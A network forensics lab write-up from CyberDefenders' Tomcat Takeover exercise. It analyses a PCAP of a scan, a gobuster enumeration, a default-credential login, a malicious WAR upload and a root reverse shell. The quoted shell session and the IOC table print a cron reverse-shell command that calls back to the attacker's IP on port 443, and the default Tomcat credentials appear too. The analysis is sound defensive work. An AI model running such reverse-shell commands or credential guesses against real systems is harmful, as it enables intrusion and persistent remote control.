









# Network Analysis: Tomcat Takeover – From Port Scan to Root Shell

**Lab:** CyberDefenders – Tomcat Takeover · **Category:** Network Forensics · **Difficulty:** Easy · **Result:** 8/8
**Tools:** Wireshark · AbuseIPDB
**Skills:** PCAP analysis · Scan detection · HTTP and Basic authentication analysis · Reverse shell analysis · Persistence detection · ATT&CK mapping

> All data comes from a simulated lab environment. No real organisation or user was involved. The uploaded WAR file was not exported or opened.

---

## Summary

An external IP, **14.0.0.120** (China Telecom, Guangzhou), attacked a company **Apache Tomcat** web server, **10.0.0.112**, in about six and a half minutes:

1. **Port scan:** ~9,400 SYN packets found ports **22, 8009 and 8080** open.
2. **Directory brute force:** **gobuster** found Tomcat's admin interface at **/manager**.
3. **Password guessing:** six login attempts until a default credential, **admin:tomcat**, worked.
4. **Malicious upload:** a reverse shell packaged as **JXQOZY.war**, deployed through Tomcat's own "Deploy WAR" feature.
5. **Reverse shell:** the server connected out to the attacker; the attacker had **root**.
6. **Persistence:** a **cron job** that reconnects to the attacker on port 443 **every minute**, confirmed working before the capture ended.

The server should be treated as fully compromised.

---

## Attack chain



---

## Investigation

### 1. Who scanned the server?

**Statistics → Conversations → IPv4**, with a SYN-only filter (`tcp.flags.syn == 1 && tcp.flags.ack == 0`):



**14.0.0.120** sent **9,447 SYN packets** to 10.0.0.112 across thousands of ports and received almost nothing back: a **port scan**. The other conversations were a handful of normal connections from 10.0.0.115, the legitimate administrator (SSH and a browser).

**Threat intel:** AbuseIPDB places the IP in **China** (CHINANET Guangdong, Guangzhou), with **0% abuse confidence and no reports**. Reputation said nothing; the behaviour said everything.



### 2. Which ports were open?

SYN-ACK replies from the server show the open ports:

```
tcp.flags.syn == 1 && tcp.flags.ack == 1 && ip.src == 10.0.0.112
```



At 346.03s, the server answered the scan on **22 (SSH)**, **8009 (AJP, Tomcat's internal connector)** and **8080 (Tomcat web server and admin panel)**. Every connection after that went to 8080.

### 3. Enumeration with gobuster

```
http.request && ip.src == 14.0.0.120
```



At ~386s, hundreds of requests a few milliseconds apart for paths like `/host-manager`, `/jmx-console` and `/manager/deploy`, each with **User-Agent: gobuster/3.6**. Gobuster brute-forces directory names from a wordlist. It found Tomcat's admin interface at **/manager**.

### 4. Brute-forcing the admin login

The Tomcat Manager uses **HTTP Basic authentication**, which sends the username and password in Base64. Base64 is encoding, not encryption, so Wireshark decodes it directly.

```
http.authorization
```



| Time | Packet | Credentials | Result |
|---|---|---|---|
| 418.80s | 20533 | admin:admin | Failed |
| 420.95s | 20537 | tomcat:tomcat | Failed |
| 422.73s | 20541 | admin:(blank) | Failed |
| 429.51s | 20545 | admin:s3cr3t | Failed |
| 434.17s | 20549 | tomcat:s3cr3t | Failed |
| **437.10s** | **20553** | **admin:tomcat** | **Success**: the admin page's images load straight after |



Every guess was a well-known Tomcat default. The attacker needed no wordlist, just six tries.

### 5. Uploading the malicious WAR file

At **547.38s**, a POST to `/manager/html/upload` with the working credentials:



`Content-Disposition: form-data; name="deployWar"; filename="JXQOZY.war"`, a **1,083-byte** Java web application. A **WAR** (Web Application Archive) is the normal way to install an app on Tomcat, so the attacker used a **legitimate admin feature** to deploy their payload. A random-looking name like this is typical of auto-generated reverse shells.

The attacker then requested `/JXQOZY/`, which triggered the payload.

### 6. The reverse shell and persistence

Outgoing connections from the server:

```
ip.src == 10.0.0.112 && tcp.flags.syn == 1 && tcp.flags.ack == 0
```



| Time | Connection | Meaning |
|---|---|---|
| **556.30s** | 10.0.0.112 → **14.0.0.120:80** | Reverse shell from the WAR payload, 9 seconds after it was triggered |
| **713.55s** | 10.0.0.112 → **14.0.0.120:443** | Second shell from the **cron job** the attacker planted |

**Follow → TCP Stream** on the first connection shows the attacker's session in plain text (no encryption):

```
563.62s  attacker> whoami
         server>   root
570.09s  attacker> cd /tmp
571.49s  attacker> pwd
         server>   /tmp
641.96s  attacker> echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'" > cron
666.52s  attacker> crontab -i cron
669.79s  attacker> crontab -l
         server>   * * * * * /bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'
```

- **`whoami` → root:** Tomcat was running as root, so the attacker got full control of the server instantly.
- **The cron job** (`* * * * *` means every minute) opens a new Bash shell to the attacker on **port 443**. Port 443 is normally HTTPS, so outbound traffic on it rarely gets blocked.
- At **713.55s** it fired, and the attacker got a root prompt: `root@cyberdefenders-virtual-machine:~#`.

**Decision point:** this is the most important finding. Removing the WAR file or restarting Tomcat would **not** remove the attacker; the cron job would reconnect within a minute.

---

## Timeline

Times are seconds from the start of the capture.

| Time | Event |
|---|---|
| 346.03s | Port scan from 14.0.0.120 begins; 22, 8009 and 8080 found open |
| 372.56s | Attacker views the Tomcat home page in a browser |
| 386.47s | **gobuster** directory brute force; `/manager` found |
| 418.80s–437.10s | Six Basic-auth login attempts; **admin:tomcat** succeeds |
| 547.38s | **JXQOZY.war** uploaded through Deploy WAR, then triggered |
| 556.30s | Reverse shell from the server to **14.0.0.120:80** |
| 563.62s | `whoami` → **root** |
| 641.96s–669.79s | **Cron job** created for persistence and verified |
| 713.55s | Cron fires: new root shell to **14.0.0.120:443** |

About **6½ minutes** from first scan to persistent root access.

---

## MITRE ATT&CK

| Tactic | Technique | Evidence |
|---|---|---|
| Reconnaissance | T1595.001 Active Scanning: Scanning IP Blocks | ~9,400 SYN packets |
| Reconnaissance | T1595.003 Active Scanning: Wordlist Scanning | gobuster against the web server |
| Credential Access | T1110.001 Brute Force: Password Guessing | Six Basic-auth attempts |
| Initial Access | T1078.001 Valid Accounts: Default Accounts | admin:tomcat |
| Persistence | T1505.003 Server Software Component: Web Shell | Malicious WAR deployed to Tomcat |
| Execution | T1059.004 Command and Scripting Interpreter: Unix Shell | `bash -i` reverse shells |
| Command and Control | T1095 Non-Application Layer Protocol | Raw TCP shells on ports 80 and 443, posing as web traffic |
| Persistence | T1053.003 Scheduled Task/Job: Cron | `* * * * *` crontab entry |

## Indicators of compromise

| Type | Value | Context |
|---|---|---|
| IP | `14[.]0[.]0[.]120` | Attacker (China Telecom, Guangzhou) |
| User-Agent | `gobuster/3.6` | Directory brute force |
| Credentials | `admin:tomcat` | Default Tomcat Manager login used |
| File | `JXQOZY.war` | Malicious WAR (reverse shell), deployed at `/JXQOZY/` |
| Network | `10.0.0.112` → `14[.]0[.]0[.]120:80` | Initial reverse shell |
| Network | `10.0.0.112` → `14[.]0[.]0[.]120:443` | Cron-based persistent reverse shell |
| Cron entry | `* * * * * /bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'` | Persistence (root crontab) |
| File | `/tmp/cron` | Attacker's cron file |

---

## Recommended response

*This is a lab, so nothing was actually actioned.*

- **Contain:** isolate 10.0.0.112 and block 14.0.0.120 at the firewall, inbound and outbound.
- **Eradicate:** remove the root crontab entry and `/tmp/cron`, undeploy `/JXQOZY/` and delete the WAR, then check for other persistence (SSH keys, users, services, other cron files). Because the attacker had root, **rebuilding the server** is the safest option.
- **Credentials:** change the Tomcat Manager password, and any other secrets stored on the server.
- **Scope:** check whether the attacker moved on from the server to other hosts, using port 22 or the internal network.

## Recommendations to prevent recurrence

- **Never leave default credentials** on admin interfaces; use strong, unique passwords.
- **Restrict `/manager`** to localhost or an admin network, or remove the Manager app if it isn't needed. It should never be reachable from the internet.
- **Don't run Tomcat as root**; use a dedicated low-privilege account, so a compromise doesn't give full control.
- **Restrict outbound traffic from servers.** A web server rarely needs to open connections to the internet on any port.
- **Alert** on directory brute forcing (many 404s from one IP), repeated failed Basic-auth logins, WAR deployments, and new crontab entries.
- **Use HTTPS** for admin logins; Basic authentication over plain HTTP exposes the password to anyone watching the traffic, as this capture shows.

---

## What I learned

- **SYN and SYN-ACK filters tell two halves of a scan:** SYNs show what the attacker tried; SYN-ACKs show what was actually open.
- **Tools often name themselves.** gobuster put its name and version in every User-Agent.
- **Basic authentication isn't protection over HTTP.** Wireshark decoded every password the attacker tried, and an attacker sniffing the network could do the same.
- **The last login attempt isn't always the answer; the response is.** I first picked the wrong packet. What proved success was the admin page loading straight after the right attempt.
- **Read the shell, not just the connection.** The lab answer was the cron callback on port 443, not the first shell on port 80, and I only understood why by reading the attacker's commands. Without them, the persistence would have been missed.
- **Legitimate features are attack paths.** Deploy WAR and cron are normal admin tools; the attacker didn't need an exploit.
